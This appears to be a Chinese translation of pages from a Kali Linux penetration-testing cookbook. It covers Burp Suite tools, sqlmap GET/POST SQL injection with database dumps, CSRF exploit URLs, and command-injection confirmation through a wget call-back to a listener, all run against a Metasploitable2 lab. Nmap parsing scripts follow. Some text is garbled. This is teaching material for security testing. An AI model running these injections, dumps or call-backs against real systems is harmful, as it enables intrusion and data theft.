要使用 Burp Suite 对目标进行 Web 应用分析，你需要一个运行一个或多个 Web 应用的远程系统。在提供的示例中，使用 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 在 TCP 端口 80 上运行着几个预装的易漏洞 Web 应用。有关设置 `Metasploitable2` 的更多信息，请参阅本书第 1 章 *Getting Started*get 中的 *Installing Metasploitable2* 教程。此外，你的 Web 浏览器需要配置为通过本地 Burp Suite 实例代理 Web 流量。有关如何通过 Burp Suite 配置你的浏览器的更多信息，请参阅本书第 1 章 *Getting Started*get 中的 *Configuring Burp Suite on Kali Linux* 教程。

#### 操作步骤……

要向 Burp Suite Decoder 传递给定的值，请选中所需的字符串，右键点击它，然后选择 `Send to Decoder`。在提供的示例中，`Cookie` 参数的值被发送到了解码器，如下截图所示：

386


*Chapter 7*

点击 `Smart decode` 按钮，Burp Suite 会自动识别编码为 URL 编码，并在原始输入编码文本的下方字段中进行解码，如下截图所示：

如果 Burp Suite 无法确定使用的编码类型，可以对多种不同类型的编码进行手动解码，包括 URL、HTML、Base64、ASCII Hex 等。解码器还可以用于通过 `Encode as...` 函数对输入的字符串进行编码。

### 工作原理……

Burp Suite Decoder 为与 Web 应用交互时提供了一个同时对内容进行编码和解码的平台。这个工具非常有用，因为 Web 中经常出于处理和混淆的原因使用各种类型的编码。此外，`Smart decode` 工具会检查任何给定输入的已知模式或签名以确定编码类型。

### Burp Suite Sequencer

Burp Suite Sequencer 提供了一个分析由 Web 应用生成的会话令牌（session tokens）随机性的平台。这个工具非常有用，因为会话令牌必须不可预测以防止会话劫持。

387


*Web Application Scanning*

### 准备工作

要使用 Burp Suite 对目标进行 Web 应用分析，你需要一个运行一个或多个 Web 应用的远程系统。在提供的示例中，使用 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 在 TCP 端口 80 上运行着几个预装的易漏洞 Web 应用。有关设置 `Metasploitable2` 的更多信息，请参阅本书第 1 章 *Getting Started* 中的 *Installing Metasploitable2* 教程。此外，你的 Web 浏览器需要配置为通过本地 Burp Suite 实例代理 Web 流量。有关如何通过 Burp Suite 配置你的浏览器的更多信息，请参阅本书第 1 章 *Getting Started* 中的 *Configuring Burp Suite on Kali Linux* 教程。

#### 操作步骤……

要使用 Burp Suite Sequencer，请选中所需的字符串，右键点击它，然后选择 `Send to Sequencer`。在提供的示例中，`Cookie` 参数的值被发送到了解码器，如下截图所示：

388


*Chapter 7*

点击 `Start capture` 按钮，Burp Suite 将开始收集令牌。捕获足够的令牌后，点击 `Start test` 按钮开始分析。

### 工作原理……

Burp Suite Sequencer 对一组伪随机数进行若干不同的数学评估，试图确定它们在生成时熵的质量。

*Web Application Scanning*

### 使用 sqlmap 进行 GET 方法 SQL 注入

Web 应用经常接受提供的 URL 的参数。这些参数通常通过 HTTP GET 请求传回 Web 服务器。如果这些参数值中的任何一个被包含在后端数据库的查询语句中，则可能存在 SQL 注入漏洞。在本教程中，我们将讨论如何使用 `sqlmap` 自动化测试 HTTP GET 方法请求参数。


使用 `sqlmap` 测试 HTTP GET 方法参数时，你需要使用 `-u` 参数和要测试的 URL。该 URL 应该包含任何 GET 方法参数。此外，如果网页内容仅对已建立会话（session）可见，则应通过 `--cookie` 参数提供该会话对应的 cookie 值，如下：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f943cd20c1651bf8f" --risk=3 --level=5
```

**** {CUT} ****

sqlmap 通过共 279 个 HTTP(s) 请求识别出以下注入点：
---
位置: GET
参数: id
类型: 布尔盲注 (boolean-based blind)
标题: OR 布尔盲注 - WHERE 或 HAVING 子句
Payload: id=-2345' OR (1644=1644) AND 'moHu'='moHu&Submit=y
类型: 报错注入 (error-based)
标题: MySQL >= 5.0 AND 报错注入 - WHERE 或 HAVING 子句
390
Payload: id=x' AND (SELECT 1537 FROM(SELECT COUNT(*),CONCAT(0x3a6b6f683a,(SELECT (CASE WHEN (1537=1537) THEN 1 ELSE 0 END)),0x3a696a793a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'VHVT'='VHVT&Submit=y
类型: 联合查询 (UNION query)
标题: MySQL 联合查询 (NULL) - 2 列
Payload: id=x' UNION ALL SELECT CONCAT(0x3a6b6f683a,0x7979634f4e716b755961,0x3a696a793a),NULL#&Submit=y
类型: AND/OR  true 盲注 (time-based blind)
标题: MySQL < 5.0.12 AND 时间盲注（重型查询）
Payload: id=x' AND 5276=BENCHMARK(5000000,MD5(0x704b5772)) AND 'XiQP'='XiQP&Submit=y
---
**** {TRUNCATED} ****

在提供的示例中，使用了风险值（risk）3 和级别（level）5。这些值分别定义了所执行测试的风险程度和彻底程度。关于风险和级别的更多详细信息，请参考 `sqlmap` 手册页或帮助文件。在运行此测试时，`sqlmap` 快速识别出后端数据库为 `MySQL` 并跳过了其他测试。如果没有指定任何操作，`sqlmap` 将仅判断所测试参数是否存在漏洞，如上一个示例所示。在经过一系列注入尝试后，`sqlmap` 确定 `ID` 参数存在多种 SQL 注入漏洞。确认漏洞后，可以在 `sqlmap` 中采取行动开始从后端数据库提取信息，如下：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f943cd20c1651bf8f" --risk=3 --level=5 --dbs
```

**** {CUT} ****
---
[03:38:00] [INFO] 后端 DBMS 是 MySQL
web 服务器操作系统: Linux Ubuntu 8.04 (Hardy Heron)
web 应用技术: PHP 5.2.4, Apache 2.2.8
后端 DBMS: MySQL 5.0
[03:38:00] [INFO] 正在获取数据库名称
[03:38:00] [WARNING] 发现反射值并已过滤
可用数据库 [7]:
[*] dvwa
391
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195
**** {TRUNCATED} ****

在提供的示例中，使用 `--dbs` 参数枚举了可以通过 SQL 访问的所有可用数据库。根据名称判断，列出的数据库中只有一个对应 dvwa 应用。要提取 dvwa 数据库的表名，可以使用 `--tables` 参数指示 `sqlmap` 执行，并使用 `-D` 参数指定数据库，如下：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f943cd20c1651bf8f" --risk=3 --level=5 --tables -D dvwa
```

**** {CUT} ****
数据库: dvwa
[2 个表]
+-----------+
| guestbook |
| users |
+-----------+ ****

通过这种方式，我们可以看到 dvwa 数据库中存在两个表：`guestbook` 和 `users`。这些表通常包含用户名和哈希密码，值得提取。要提取其中一个表的内容，可以使用 `--dump` 参数，并使用 `-D` 参数指定数据库，使用 `-T` 参数指定表，如下：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f943cd20c1651bf8f" --risk=3 --level=5 --dump -D dvwa -T users
```

**** {CUT} ****
你想通过字典攻击破解它们吗？[Y/n] Y
[03:44:03] [INFO] 使用哈希方法 'md5_generic'
你想使用哪个字典？
[1] 默认字典文件 './txt/wordlist.zip' (按回车)
[2] 自定义字典文件
[3] 字典列表文件
>
[03:44:08] [INFO] 使用默认字典
你想使用常用密码吗？（较慢！）[y/N] N
**** {CUT} ****
数据库: dvwa
表: users
[2 条记录]
+-----------+----------+-------------+-----------+-----------+
| user_id | username | password | last_name | first_name |
+-----------+----------+-------------+-----------+-----------+
| 1 | admin | 5f44d028baba8647159d0e56f8dc629d | admin | admin |
| 2 | gordonb | e99a18c428cb39d75a335c71e9b99a6b | Brown | Gordon |
| 3 | 1337 | 8d3533d75ae2c3966d7e0d536f88203 | charley | Hack |
| 4 | pablo | 0d107d09f5bbe40cade3de5c71e9e9b9a | letmein | Picasso | Pablo |
| 5 | smithy | 5f44d028baba8647159d0e56f8dc6292d | Smith | Bob |
+-----------+----------+-------------+-----------+-----------+


# POST 方法请求参数

### 准备工作

要使用 `sqlmap` 对目标执行 SQL 注入，你需要一个运行一个或多个易受 SQL 注入漏洞 Web 应用的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 在 TCP 端口 80 上运行了几个预装的漏洞 Web 应用。有关设置 `Metasploitable2` 的更多信息，请参阅本书第 1 章*入门*中的*安装 Metasploitable2* 章节。

### 如何操作……

为了对使用 HTTP POST 方法的服务执行 SQL 注入攻击，我们需要使用 `--data` 参数定义 POST 参数字符串。`Mutillidae` 中的登录应用程序提供了一个通过 POST 方法传输用户名和密码的登录界面。这将是我们 SQL 注入攻击的目标。请看下方的示例：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index.php?page=login.php" --data="username=user&password=pass&login-php-submit-button=Login" --level=5 --risk=3
```

**** {CUT} ****

```
sqlmap 识别出以下注入点，共 267 个
HTTP(s) 请求：
394
```

*第 7 章*
---
位置: POST
参数: username
类型: 布尔盲注 (boolean-based blind)
标题: OR 盲注 - WHERE or HAVING 子句 (MySQL 注释)
Payload: `username=-8082' OR (4556=4556)#&password=pass&login-php-submit-button=Login`
类型: 报错注入 (error-based)
标题: MySQL >= 5.0 报错注入 - WHERE or HAVING 子句
Payload: `username=user' AND (SELECT 3261 FROM(SELECT COUNT(*),CONCAT(0x3a61746d3a,(SELECT (CASE WHEN (3261=3261) THEN 1 ELSE 0 END)),0x3a766723a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'MraR'='MraR&password=pass&login-php-submit-button=Login`
---
```
[04:14:10] [INFO] 后端 DBMS 是 MySQL
Web 服务器操作系统: Linux Ubuntu 8.04 (Hardy Heron)
Web 应用技术: PHP 5.2.4, Apache 2.2.8
后端 DBMS: MySQL 5.0
```
**** {TRUNCATED} ****

如果未指定任何操作，`sqlmap` 将仅确定所测试的参数是否存在漏洞，如上一个示例所示。在经过一系列注入尝试后，`sqlmap` 确定 `username` POST 参数易受布尔盲注和报错注入技术的影响。在确认漏洞后，可以在 `sqlmap` 中采取行动，开始从后端数据库提取信息，如下如下：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index.php?page=login.php" --data="username=user&password=pass&login-php-submit-button=Login" --dbs
```
**** {CUT} ****

```
可用数据库 [7]:
[*] dvwa
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195
```
**** {TRUNCATED} ****

395
*Web 应用扫描*

在提供的示例中，使用 `--dbs` 参数来列出所有可以通过 SQL 注入访问的数据库。然后我们可以直接针对特定数据库进行后续操作。要提取 `owasp10` 数据库中所有表的名，我们可以使用 `--tables` 参数指示 `sqlmap` 提取表名，然后使用 `-D` 参数指定从哪个数据库（owasp10）提取名称，如下：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index.php?page=login.php" --data="username=user&password=pass&login-php-submit-button=Login" --tables -D owasp10
```
**** {CUT} ****

```
Database: owasp10
[6 tables]
+----------------+
| accounts |
| blogs_table |
| captured_data |
| credit_cards |
| hitlog |
| pen_test_tools |
+----------------+
```
**** {TRUNCATED} ****

通过这种方式，我们可以看到 `owasp10` 数据库中存在六张表。这些表包括 `accounts`、`blog_table`、`captured_data`、`credit_cards`、`hitlog` 和 `pen_test_tools`。可能会引起大多数人注意的表名是 `credit_cards` 表。要从识别出的表之一提取内容，我们可以使用 `--dump` 参数，然后使用 `-D` 参数指定数据库，并使用 `-T` 指定提取内容的表，如下：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index.php?page=login.php" --data="username=user&password=pass&login-php-submit-button=Login" --dump -D owasp10 -T credit_cards
```
**** {CUT} ****

```
Database: owasp10
[1 table]
+----------------+
| credit_cards |
+----------------+
```
**** {TRUNCATED} ****

### 工作原理……

Sqlmap 通过提交来自大量已知查询的请求来工作。多年来，它经过高度优化，可以根据响应智能地修改请求。为了简化 `sqlmap` 的使用，可以使用来自 Burp Suite 截获的请求。

要让 `sqlmap` 使用请求拦截，必须将其保存为文本格式。为此，在 Burp Suite 中右键点击请求内容，然后选择“Copy to file”（复制到文件）。保存后，你可以浏览目录并使用 `cat` 命令验证文件内容，如下：

```
root@KaliLinux:~# cat dvwa_capture
```
397
*Web 应用扫描*
```
GET /dvwa/vulnerabilities/blind/?id=test&Submit=Submit HTTP/1.1
Host: 172.16.36.135
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceasel/18.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.36.135/dvwa/vulnerabilities/blind/
Cookie: security=low; PHPSESSID=8aa4a24cd608791eca39c1cb95a7b0c
Connection: keep-alive
```

要使用拦截的请求，使用 `-r` 参数和文件的绝对路径来运行 `sqlmap`。这种方法通常会大幅减少 Sqlmap 命令中需要提供的信息，因为许多本需要提供的信息已经包含在请求中了。请看下方的示例：

```
root@KaliLinux:~# sqlmap -r /root/dvwa_capture --level=5 --risk=3 -p id
```

```
[*] starting at 16:44:09
[16:44:09] [INFO] parsing HTTP request from '/root/dvwa_capture'
```

在提供的示例中，不需要向 `sqlmap` 传递 cookie 值，因为 cookie


值已在捕获的请求中识别。当启动 `sqlmap` 时，捕获中的 cookie 值将自动用于所有请求，如下所示：

`GET parameter 'id' is vulnerable. Do you want to keep testing the others`

`(if any)? [y/N] N`

`sqlmap identified the following injection points with a total of 487`

`HTTP(s) requests:`

`---`

`Place: GET`
`Parameter: id`
`Type: boolean-based blind`
`Title: OR boolean-based blind - WHERE or HAVING clause`
`Payload: id=-8210' OR (7740=7740) AND 'ZUCk'='ZUCk&Submit=Submit`
`Type: UNION query`
`Title: MySQL UNION query (NULL) - 2 columns`
`Payload: id=test_here' UNION ALL SELECT NULL,CONCAT(0x3a6f63723a,0x67`
`744e67787a6157674e,0x3a756c753a)#&Submit=Submit`
398

*第 7 章*

`Type: AND/OR time-based blind`
`Title: MySQL < 5.0.12 AND time-based blind (heavy query)`
`Payload: id=test_here' AND 4329=BENCHMARK(5000000,MD5(0x486a7a4a))`
`AND 'ARpD'='ARpD&Submit=Submit`

`sqlmap` 能够测试请求捕获中识别出的所有 GET 方法参数。在这里，我们可以看到 `ID` 参数存在多种 SQL 注入漏洞。

### 工作原理……

`sqlmap` 能够通过解析请求的内容并识别任何可评估的参数来接受捕获的请求。这有效地使得 `sqlmap` 在启动时无需花费额外精力转录执行攻击所需的全部参数。

### 自动化 CSRF 测试

跨站请求伪造（CSRF）是最容易被误解的 Web 漏洞之一。尽管如此，未能正确识别此类漏洞可能会对 Web 应用及其用户带来严重风险。在本教程中，我们将讨论如何对 GET 和 POST 方法参数进行 CSRF 漏洞测试。

### 准备工作

要对目标进行 CSRF 测试，你需要一个运行一个或多个受 CSRF 影响 Web 应用的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例执行此任务。`Metasploitable2` 在 TCP 端口 `80` 上运行着几个预装的漏洞 Web 应用。有关设置 `Metasploitable2` 的更多信息，请参阅本书第 1 章*入门*中的*安装 Metasploitable2* 教程。

### 如何操作……

CSRF 是一种可能存在于 GET 和 POST 方法事务中的漏洞。`DVWA` 提供了一个 GET 方法 CSRF 漏洞的良好示例。应用程序允许用户通过 GET 方法参数多次提交新值来更新密码，如下：

```
GET /dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change HTTP/1.1
Host: 172.16.36.135
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101
Firefox/18.0 Iceweasel/18.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.36.135/dvwa/vulnerabilities/csrf/
Cookie: security=low; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7b0c
```

由于缺乏 CSRF 控制，利用此漏洞非常容易。如果 Web 应用程序的用户被诱导访问带有预配置的 `password_new` 和 `password_conf` 参数值的 URL，攻击者就可以强制受害者将密码更改为攻击者选择的密码。以下 URL 是该利用利用的示例：

```
http://172.16.36.135/dvwa/vulnerabilities/csrf/?password_new=compromised&password_conf=compromised&Change=Change#
```

如果受害者点击了此链接，他们的密码将被更改为 compromised。

然而，利用 CSRF 漏洞很少有那么简单。这是因为大多数开发者至少具有安全意识，不会使用 GET 方法参数执行安全事务。一个易受 POST 方法 CSRF 影响的应用程序良好示例是 `Mutillidae` 应用程序的博客功能，所示：

```
POST /mutillidae/index.php?page=add-to-your-blog.php HTTP/1.1
Host: 172.16.36.135
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101
Firefox/18.0 Iceweasel/18.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.36.135/dvwa/vulnerabilities/csrf/
Cookie: security=low; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7b0c
```

399
*Web 扫描*


大多数攻击者寻求利用漏洞，并希望最终能找到在底层操作系统上执行任意命令的方法。命令执行漏洞在不需要任何额外步骤的情况下提供了这种能力。在本教程中，我们将讨论如何使用 Web 服务器日志或自定义的 Web 服务脚本来确认命令执行漏洞。

### 准备工作

要使用 HTTP 请求确认来对目标进行命令注入测试，你需要一个远程系统，该系统运行着一个或多个易受命令注入攻击的 Web 应用程序。在提供的示例中使用了 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 在 TCP 端口 `80` 上运行着几个预装的易受漏洞 Web 应用程序。有关如何设置 `Metasploitable2` 的更多信息，请参阅本书书第 1 章“入门指南”中的`安装 Metasploitable2` 教程。

此外，本节还需要使用如 `VIM` 或 `Nano` 等文本编辑器将脚本写入文件系统。有关编写脚本的更多信息，请参阅本书书第 1 章“入门指南”中的`使用文本编辑器（VIM` 和 `Nano）` 教程。

### 如何操作……

通过执行强制后端系统与你拥有的 Web 服务器交互的命令，可以验证 Web 应用程序中的命令注入漏洞。可以轻松检查日志以寻找漏洞服务器已与其交互的证据。

或者，可以编写一个自定义脚本来生成一个临时的 Web 服务，该服务可以监听外部连接并打印接收到的请求。以下是一个此此 Python 脚本示例：

```python
#!/usr/bin/python

import socket

httprecv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
httprecv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
httprecv.bind(("0.0.0.0",8000))
httprecv.listen(2)
(client, ( ip,sock)) = httprecv.accept()
print "Received connection from : ", ip
data = client.recv(4096)
print str(data)
client.close()
httprecv.close()
```

脚本执行后，我们需要强制目标服务器与监听的服务交互以确认命令注入漏洞。DVWA 应用程序有一个 `ping` 工具，可以用于 `ping` 提供的 IP 地址。用户输入被直接传递给系统调用，并可以被修改在底层操作系统中执行任意命令。我们可以通过使用分号跟随每个后续命令来追加多个命令，如下截图所示：

在提供的示例中，输入的内容为 `ping 127.0.0.1`，并对 `http://172.16.36.224:8000` 执行 `wget` 请求。该 `wget` 请求对应于临时的监听 Python 服务。在提交输入后，我们可以参考脚本的输出来验证命令已执行，如下：

```root@KaliLinux:~# ./httprecv.py
Received connection from : 172.16.36.135
GET / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */***
Host: 172.16.36.224:8000
Connection: Keep-Alive
```

在这里，我们可以看到从目标 Web 服务器接收到了连接，并且用于访问 Web 服务的 user-agent 是 `wget`。如果没有安装 `wget`，`Curl` 是另一个可选的替代方案。

### 工作原理……

该 Python 脚本之所以能确认命令注入漏洞，因为它证明了命令可以通过来自不同系统的注入有效载从目标服务器上执行。在有效载被注入到服务器的同时，同时执行类似请求的可能性极低。然而，即使担心有效载不是检测到的流量的真实源头，也可以轻松进行多次尝试以消除对误报的顾虑。

## 使用 ICMP 流量验证命令注入漏洞

命令注入可能是所有已知 Web 应用程序攻击向量中最危险的一种。大多数攻击者寻求利用漏洞，并希望最终能找到在底层操作系统上执行任意命令的方法。命令执行漏洞在不需要任何额外步骤的情况下提供了这种能力。在本教程中，我们将讨论如何编写一个自定义脚本，使用 ICMP 流量验证远程代码执行漏洞。

### 准备工作

要使用 ICMP Echo 请求确认来对目标进行命令注入测试，你需要一个远程系统，该系统运行着一个或多个易受命令注入攻击的 Web 应用程序。在提供的示例中使用了 `Metasploitable2` 实例来执行此任务。`Metasploitable2` 在 TCP 端口 `80` 上运行着几个预装的易受漏洞 Web 应用程序。有关如何设置 `Metasploitable2` 的更多信息，请参阅本书书第 1 章“入门指南”中的`安装 Metasploitable2` 教程。

此外，本节还需要使用如 `VIM` 或 `Nano` 等文本编辑器将脚本写入文件系统。有关编写脚本的更多信息，请参阅本书书第 1 章“入门指南”中的`使用文本编辑器（VIM` 和 `Nano）` 教程。

### 如何操作……

通过执行强制后端系统向监听服务发送 ICMP 流量的命令，可以验证 Web 应用程序中的命令注入漏洞。接收到的 ICMP Echo 请求可用于识别易漏洞系统。以下是一个使用 Scapy 库实现此目的的 Python 脚本示例：

```python
#!/usr/bin/python

import logging
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
from scapy.all import *

def rules(pkt):
    try:
        if (pkt[IP].dst=="172.16.36.224") and (pkt[ICMP]):
            print str(pkt[IP].src) + " is exploitable"
    except:
        pass

print "Listening for Incoming ICMP Traffic. Use Ctrl+C to stop listening"
sniff(lfilter=rules,store=0)
```

执行 ICMP 监听后，我们需要尝试从漏洞服务器向我们的监听服务启动 ICMP Echo 请求。这可以通过向易受命令注入的用户输入中注入 `ping` 命令来实现。在 Mutillidae 中，有一个漏洞函数通过将用户输入传递给直接系统调用执行 DNS 枚举。可以使用分号向用户输入追加一个独立的 ping 请求。

假设服务器易受命令注入，Python 监听器应指示已接收 ICMP Echo 请求，并且目标服务器可能存在漏洞，如下：

```root@KaliLinux:~# ./listener.py
Listening for Incoming ICMP Traffic. Use Ctrl+C to stop listening
172.16.36.135 is exploitable
```

### 工作原理……

该 Python 脚本之所以能确认命令注入漏洞，因为它证明了命令可以通过来自不同系统的注入有效载从目标服务器上执行。在有效载被注入到服务器的同时，同时执行类似请求的可能性极低。然而，即使担心有效载不是检测到的流量的真实源头，也可以轻松进行多次尝试以消除对误报的顾虑。


Kali Linux 渗透测试平台提供了大量高效工具，可以完成企业渗透测试期间所需的大多数常见任务。然而，在某些情况下，单个工具不足以完成给定的任务。与其构建完全全新的脚本或程序来完成挑战性任务，通常编写利用现有工具并/或根据需要修改其行为的脚本往往更为有效。

实用的自定义脚本类型包括：用于分析或管理现有工具输出的脚本、将多个工具组合，或者对原本需要顺序执行的任务进行多线程处理。本章包含以下自动化和操作现有 Kali Linux 工具的配方：

- Nmap greppable 输出分析
- 带有针对性 NSE 脚本执行的 Nmap 端口扫描
- 结合 MSF 化的 Nmap NSE 漏洞扫描
- 结合 MSF 化的 Nessuscmd 漏洞扫描
- 使用反向 Shell 负载的多线程 MSF 注入
- 使用后门可执行文件多线程 MSF 注入
- 带有 ICMP 验证的多线程 MSF 注入
- 带有管理员账户的多线程 MSF 注入

## Nmap greppable 输出分析

大多数安全专业人员认为 `Nmap` 是 Kali Linux 平台上最精良且最有效的工具之一。但尽管这个工具非常令人印象深刻且强大，全面的端口扫描和服务识别可能非常耗时。与其在整个渗透测试过程中针对不同的服务端口进行针对性扫描，更优的方法是对所有可能的 TCP 和 UDP 服务进行全面扫描，然后在整个评估过程中直接引用这些结果。`Nmap` 提供了 XML 和 greppable（可 grep 的）输出格式来帮助这一过程。

*自动化 Kali 工具*

理想情况下，你应该足够熟悉这些格式，以便根据需要从输出文件中提取所需信息。然而，为了供你参考，本配方将提供一个示例脚本，该脚本可用于提取所有识别为在指定端口运行服务的 IP 地址。

### 准备工作

要使用本配方中演示的脚本，你需要让 `Nmap` 结果以 greppable 格式输出结果。这可以通过执行 `Nmap` 端口扫描并使用 `-oA` 选项输出所有格式，或使用 `-oG` 专门输出 greppable 格式来获得。在提供的示例中，对单个 `/24` 子网扫描了多个系统，包括 Windows XP 和 Metasploitable2。有关设置 Metasploitable2 的更多信息，请参考本书“第一章”`入门指南`中的 `安装 Metasploitable2` 配方。有关设置 Windows 系统的更多信息，请参考本书“第一章”`入门指南`中的 `安装 Windows Server` 配方。此外，本节还需要使用如 `VIM` 或 `Nano` 等文本编辑器将脚本写入文件系统。有关编写脚本的更多信息，请参考本书“第一章”`入门指南`中的 `使用文本编辑器 (VIM and Nano)` 配方。

### 如何操作……

接下来的示例演示了使用 bash 脚本语言甚至 bash 命令行界面 (CLI) 方便地从 `Nmap` 输出的 greppable 格式中提取信息：

```bash
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <port #> <filename>";
exit; fi

port=$1
file=$2

echo "Systems with port $port open:"

grep $port $file | grep open | cut -d " " -f 2
```

为了确保理解脚本的功能，我们将顺序解释每一行。

脚本的第一行仅指向 bash 解释器，以便脚本可以独立执行。脚本的第二行是一个 `if...then` 条件语句，用于测试是否为脚本提供了任何参数。这只是基本的输入验证，以确保用户了解工具的用法。如果在执行工具时未提供任何参数，脚本将回显用法描述并退出。用法描述请求两个参数，包括端口号和文件名。

接下来的两行将每个输入值赋值给更易理解的变量。第一个输入值是端口号，第二个输入值是 `Nmap` 输出文件。然后脚本将检查 `Nmap` greppable 输出文件，以确定哪些系统（如果有的话）在给定的端口号上运行服务：

```bash
root@KaliLinux:~# ./service_identifier.sh
Usage: #./script <port #> <filename>
```

当不带任何参数执行脚本时，会输出用法描述。要使用该脚本，我们需要输入一个要检查的端口号以及 `Nmap` greppable 输出文件的文件名。在提供的示例中，对 `/24` 网络进行了扫描，并生成了名为 `netscan.txt` 的 greppable 输出文件。然后使用该脚本分析此文件，并确定其中是否发现了任何在各个端口上有活动服务的主机。

```bash
root@KaliLinux:~# ./service_identifier.sh 80 netscan.txt
Systems with port 80 open:
172.16.36.135
172.16.36.225
```

```bash
root@KaliLinux:~# ./service_identifier.sh 22 netscan.txt
Systems with port 22 open:
172.16.36.135
172.16.36.225
172.16.36.239
```

```bash
root@KaliLinux:~# ./service_identifier.sh 445 netscan.txt
Systems with port 445 open:
172.16.36.135
172.16.36.225
```

在所示示例中，运行脚本是为了确定运行在 80、22 和 445 端口上的主机。脚本的输出声明了正在评估的端口号，然后列出输出中具有活动服务的系统 IP 地址。

### 工作原理……

`grep` 是一个功能非常强大的命令行实用，可以在 bash 中用于从输出或文件中提取特定内容。在本配方提供的脚本中，`grep` 用于从输出中提取任何给定端口号的实例。由于 `grep` 函数的输出包含多个部分信息，随后输出通过管道传递给 `cut` 函数提取 IP 地址，然后将其输出到终端。

## 带有针对性 NSE 脚本执行的 Nmap 端口扫描

许多 Nmap 脚本引擎 (NSE)脚本仅在给定端口上有运行服务时才适用。考虑 `smb-check-vulns.nse` 脚本的使用。该脚本将评估运行在 TCP 445 端口上的 SMB 服务是否存在常见的服务漏洞。

如果在整个网络上执行此脚本，它必须重新完成确定 445 端口是否开放以及每个目标系统是否可以访问 SMB 服务的任务。这个任务可能在评估的扫描阶段已经完成。可以使用 bash 脚本利用现有的 Nmap greppable 输出文件，仅针对运行相应服务的系统运行特定服务的 NSE 脚本。在本配方中，我们将演示如何使用脚本从先前的扫描结果确定在 TCP 445 上运行服务的主机，然后仅对这些系统运行 `smb-check-vulns.nse` 脚本。


Windows 系统请参阅本书中 `第 1 章` `入门` 中的 `安装 Windows Server` 教程。此外，本节将要求使用 `VIM` 或 `Nano` 等文本编辑器将脚本写入文件系统。有关编写脚本的更多信息，请参阅本书中 `第 1 章` `入门` 中的 `使用文本编辑器（VIM 和 Nano）` 教程。

## 如何实现…

接下来的示例演示了如何使用 bash 脚本将多个任务串联在一起。在这种情况下，对 `Nmap` 的 grep 格式输出文件进行分析，然后利用该任务识别出的信息对不同的系统执行 `Nmap` NSE 脚本。具体而言，第一个任务将确定哪些系统在 `TCP 445` 上运行了服务，然后对这些系统每一个运行 `smb-check-vulns.nse` 脚本。

```bash
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <file>"; exit; fi

file=$1

for x in $(grep open $file | grep 445 | cut -d " " -f 2);
do nmap --script smb-check-vulns.nse -p 445 $x --script-args=unsafe=1;
done
```

为了确保理解脚本的功能，我们将按顺序解释每一行代码。前几行与上一个教程中讨论的脚本相似。第一行指向 bash 解释器，第二行检查是否提供了参数，第三行将输入值分配给易理解的变量名。

然而，脚本的主体非常不同。使用 `for` 循环来遍历通过 `grep` 函数获取的 IP 地址列表。`grep` 函数输出的 IP 地址列表对应于所有在 `TCP 端口 445` 上运行服务的系统。

对于这些 IP 地址中的每一个，随后将执行 `Nmap` NSE 脚本。通过仅在之前已识别出在 `TCP 445` 上运行服务的系统上运行此脚本，可以大幅缩短运行 NSE 扫描所需的时间。

```bash
root@KaliLinux:~# ./smb_eval.sh
Usage: #./script <file>
```

通过不带任何参数执行脚本，脚本将输出用法说明。该描述指示应提供一个现有 `Nmap` grep 格式输出文件的文件名。当提供了该输出文件时，脚本将快速分析文件以找到任何在 `TCP 445` 上运行服务的系统，然后对这些系统每一个运行 NSE 脚本并将结果输出到终端。

```bash
root@KaliLinux:~# ./smb_eval.sh netscan.txt
Starting Nmap 6.25 ( http://nmap.org ) at 2014-04-10 05:45 EDT
Nmap scan report for 172.16.36.135
Host is up (0.00035s latency).
PORT STATE SERVICE
445/tcp open microsoft-ds
MAC Address: 00:0C:29:3D:84:32 (VMware)
Host script results:
| smb-check-vulns:
| Conficker: UNKNOWN; not Windows, or Windows with disabled browser service (CLEAN); or Windows with crashed browser service (possibly INFECTED).
